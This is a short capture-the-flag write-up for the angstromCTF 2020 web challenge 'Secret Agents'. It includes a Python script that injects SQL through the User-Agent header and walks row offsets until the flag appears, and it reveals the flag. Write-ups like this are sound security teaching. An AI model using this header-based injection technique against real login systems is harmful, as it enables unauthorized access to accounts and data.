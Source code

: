 # [Web] Secret Agents

> Points: 110
> Solves: 547

## Description

Can you enter [the secret agent portal](https://agents.2020.chall.actf.co)? I've heard someone has a flag :eyes:

Our insider leaked [the source](https://files.actf.co/b8ec533304b09d0100428d372d8392ba4f798bded442038e045334266d758b29/app.py), but was "terminated" shortly thereafter...

> Hint: How does the site know who you are?

## Solution

Apparently, we can inject the `User-Agent` field.

```python
from requests import get

url = 'https://agents.2020.chall.actf.co/login'

def guess(offset):
    r = get(url, headers={
        "User-Agent": "' or 1 limit 1 offset {} -- -".format(offset),
    })

    if 'actf' in r.text:
        print(r.text)
        exit()

i = 0
while True:
    guess(i)
    i += 1
```

Flag `actf{nyoom_1_4m_sp33d}`
